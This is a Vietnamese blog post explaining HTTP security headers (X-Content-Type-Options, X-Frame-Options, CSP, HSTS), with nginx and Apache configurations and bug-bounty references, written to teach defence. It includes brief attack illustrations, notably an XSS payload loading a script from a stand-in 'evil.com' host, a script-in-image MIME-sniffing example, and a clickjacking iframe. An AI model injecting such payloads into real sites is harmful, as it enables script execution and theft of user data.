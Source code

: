 ```yaml
---
layout: post
title: HTTP Security Headers
subtitle: Bảo Vệ Website Trước Các Cuộc Tấn Công Mạng
tags: [web, security, pentest]
comments: true
date: 2025-04-09 19:23:00 +0700
---
```


# HTTP Security Headers: Bảo Vệ Website Trước Các Cuộc Tấn Công Mạng

HTTP Security Headers là các tiêu đề HTTP mà server gửi đến trình duyệt để hướng dẫn cách xử lý nội dung và tương tác với website. Chúng là lớp phòng thủ quan trọng giúp bảo vệ website khỏi các cuộc tấn công mạng phổ biến như Cross-Site Scripting (XSS), Clickjacking, Man-in-the-Middle (MitM), và nhiều mối đe dọa khác. Trong bài blog này, chúng ta sẽ đi sâu vào từng tiêu đề bảo mật, giải thích cách attackers có thể khai thác chúng nếu không được cấu hình đúng, và cách bạn nên cấu hình chúng để tăng cường bảo mật. Ngoài các headers phổ biến, tôi cũng sẽ đề cập đến những headers ít được chú ý nhưng vẫn tiềm ẩn nguy cơ lớn nếu bị bỏ qua.

## Tại Sao HTTP Security Headers Quan Trọng?

Khi trình duyệt gửi yêu cầu đến server, server không chỉ trả về nội dung HTML mà còn gửi kèm các tiêu đề HTTP. Nếu không có các tiêu đề bảo mật hoặc cấu hình sai, attackers có thể:

- **Chèn mã độc**: Thực hiện các cuộc tấn công XSS để đánh cắp dữ liệu người dùng.
- **Giả mạo yêu cầu**: Sử dụng CSRF để thực hiện hành động trái phép thay mặt người dùng.
- **Đánh cắp thông tin**: Khai thác kết nối không mã hóa hoặc thông tin rò rỉ từ headers.
- **Lừa đảo người dùng**: Sử dụng Clickjacking để đánh lừa người dùng nhấp vào nội dung độc hại.

Cấu hình đúng các HTTP Security Headers không chỉ giảm thiểu rủi ro mà còn giúp website tuân thủ các tiêu chuẩn bảo mật hiện đại, tăng uy tín với người dùng và công cụ tìm kiếm.

## Danh Sách Các HTTP Security Headers Quan Trọng

### 1. **X-Content-Type-Options**

- **Mô tả**: Ngăn trình duyệt "đoán" kiểu nội dung (MIME type) của tệp nếu server không chỉ định rõ ràng.
- **Giá trị hợp lệ**: `nosniff`.
- **Rủi ro nếu không có**:
  - Attackers có thể tải lên tệp độc hại (ví dụ: một file `.jpg` chứa mã JavaScript) và lừa trình duyệt thực thi nó như script. Đây là kỹ thuật "MIME type sniffing attack".
- **Ví dụ khai thác**:
  - Một attacker tải lên file `malicious.jpg` chứa mã `<script>alert('Hacked');</script>`. Nếu server không định nghĩa MIME type và trình duyệt "sniff" thành `text/javascript`, mã độc sẽ chạy ngay lập tức.
- **Cách cấu hình**:
  ```nginx
  add_header X-Content-Type-Options "nosniff";
  ```
- **Lợi ích**: Đảm bảo trình duyệt chỉ xử lý nội dung theo MIME type do server chỉ định, ngăn chặn các cuộc tấn công dựa trên MIME type.
- **Tham Khảo**:
  - [https://hackerone.com/reports/369979](https://hackerone.com/reports/369979)
  - [https://hackerone.com/reports/9479](https://hackerone.com/reports/9479)

### 2. **X-Frame-Options**

- **Mô tả**: Ngăn website bị nhúng trong iframe, bảo vệ chống lại Clickjacking.
- **Giá trị hợp lệ**: DENY, SAMEORIGIN.
- **Rủi ro nếu không có**:
  - Attackers có thể nhúng website của bạn vào iframe trên trang độc hại, phủ giao diện giả mạo để lừa người dùng nhập thông tin nhạy cảm (như mật khẩu hoặc thông tin thẻ tín dụng).
- **Ví dụ khai thác**:
  - Một trang web giả mạo nhúng trang đăng nhập của bạn trong iframe: `<iframe src="https://yourwebsite.com/login"></iframe>`. Người dùng không nhận ra và nhập thông tin, attacker ghi lại dữ liệu qua các lớp giao diện giả.
- **Cách cấu hình**:

nginx:

```nginx
add_header X-Frame-Options "DENY";
```

apache:

```apache
Header set X-Frame-Options "DENY"
```

- **Lợi ích**: Ngăn website bị lạm dụng trong các cuộc tấn công Clickjacking.
- **Tham Khảo**:
  - [https://hackerone.com/reports/283951](https://hackerone.com/reports/283951)
  - [https://hackerone.com/reports/163646](https://hackerone.com/reports/163646)
  - [https://hackerone.com/reports/27594](https://hackerone.com/reports/27594)

### 3. **Content-Security-Policy (CSP)**

- **Mô tả**: Kiểm soát nguồn tài nguyên (script, hình ảnh, v.v.) mà trình duyệt được phép tải, giảm nguy cơ XSS và các mã độc khác.
- **Giá trị hợp lệ**: default-src 'self'; script-src 'self' https://trusted.cdn.com; object-src 'none';.
- **Rủi ro nếu không có**:
  - Attackers có thể chèn mã JavaScript từ nguồn bên ngoài hoặc nội tuyến (inline script) để thực thi mã độc, đánh cắp cookie, hoặc thao túng nội dung.
- **Ví dụ khai thác**:
  Nếu không có CSP, một lỗ hổng XSS cho phép chèn `<script src="https://evil.com/malware.js"></script>` sẽ chạy mã độc từ server của attacker.
- **Cách cấu hình**:

nginx:

```nginx
add_header Content-Security-Policy "default-src 'self'; script-src 'self'; object-src 'none';";
```

apache:

```apache
Header set Content-Security-Policy "default-src 'self'; script-src 'self'; object-src 'none';"
```

- **Lợi ích**: Giới hạn nguồn tài nguyên hợp lệ, giảm bề mặt tấn công từ XSS và các mã độc khác.

- **Tham Khảo**
  - [https://hackerone.com/reports/47472](https://hackerone.com/reports/47472)
  - [https://hackerone.com/reports/1588732](https://hackerone.com/reports/1588732)
  - [https://hackerone.com/reports/1481207](https://hackerone.com/reports/1481207)

### 4. **Strict-Transport-Security (HSTS)**

- **Mô tả**: Buộc trình duyệt chỉ sử dụng HTTPS, ngăn kết nối HTTP không mã hóa.
- **Giá trị hợp lệ**: max-age=31536000; includeSubDomains; preload.
- **Rủi ro nếu không có**:
  - Attackers có thể thực hiện tấn công MitM hoặc "SSL stripping" để chuyển hướng người dùng sang HTTP, đánh cắp dữ liệu nhạy cảm như cookie hoặc thông tin đăng nhập.
- **Ví dụ khai thác**:
  - Người dùng truy cập `http://yourwebsite.com` thay vì `https://`, attacker chặn kết nối, giả mạo nội dung và lấy cắp thông tin.
- **Cách cấu hình**:

nginx:

```nginx
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains";
```

apache:

```apache
Header set Strict-Transport-Security "max-age=31536000; includeSubDomains"
```

- **Lợi ích**: Đảm bảo mọi kết nối đều được mã hóa, giảm nguy cơ bị tấn công qua mạng.
- **Tham Khảo**:
  - [https://hackerone.com/reports/20072](https://hackerone.com/reports/20072)
  - [https://hackerone.com/reports/7969](https://hackerone.com/reports/7969)
